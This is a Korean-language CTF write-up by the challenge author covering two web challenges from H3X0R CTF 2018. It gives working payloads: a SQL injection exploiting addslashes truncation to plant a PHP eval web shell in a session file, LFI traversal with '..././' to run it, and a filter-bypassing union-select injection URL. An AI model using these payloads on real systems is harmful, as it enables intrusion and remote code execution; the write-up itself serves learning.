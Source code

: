 # H3X0R CTF 2018 - Web Write-up

```
H3X0R CTF 2018 - goodaegi board, sqlgame revenge
Written by Siwoo Mun (munsiwoo)
```

## goodaegi board (490pts) - solver (1)

구대기 보드는 sql injection과 lfi, php 세션을 이용한 rce문제다.  
의도한 풀이는 sql injection으로 php 코드를 username에 넣어주고 가입한 계정으로 로그인해서  
lfi로 해당 계정의 세션을 포함시켜 rce로 flag.php 읽어오는걸 의도했다. (session to rce)  
  
자세한 풀이는 아래를 참고하자  
  
--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join 함수에서 sql injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 두 번째 줄부터 네 번째 줄을 보면 sql injection방지를 위해 addslashes를 거치고
sql truncate attack을 방지한다며 문자열을 100자로 자르고 있다.  
  
addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

이유는 'a' * 99 뒤에 single quote가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고  
'a' * 99 + backslashes + single quote가 되면서 single quote가 잘리게 된다.  
  
즉 아래와 같은 꼴이 된다.  
  
``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 PHP 코드를 넣어주고 가입하면 된다

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login  
username : ``<? eval($_GET[x]);?>``  
password : ``a``  

---------------------------------------------
### PHP SESSION to RCE PoC

session to rce의 간단한 예시를 들어보면  
php에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?  
세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.  
우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.  
또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion한다면 RCE가 가능하다.  

* 세션 파일명 : ``sess_[random_string]`` 여기서 ``[random_string]``은 클라이언트가 가지고 있는 PHPSESSID 값이다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0;`` => ``sess_fqs54b8ies3uhuhlttlb3lq3d0``
  
단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 sql injection을 활용해야 한다.

--------------------------------------------
### LFI (session inclusion)
이제 세션에 php 코드를 넣는데 성공했다.  
lfi는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.  
해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // 안봐도 됨
	$page = str_replace(chr(0), '', $page); // 안봐도 됨
	$page = str_replace('../', '', $page); // '../' 지우기
	if(substr($page, -4, 4) == 'html') { // 확장자가 html인지 체크
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.  
그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``  
  
rce가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html&x=echo file_get_contents('flag.php');``

## sqlgame revenge (480pts) - solver (2)

노말한 sql injection challenge다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
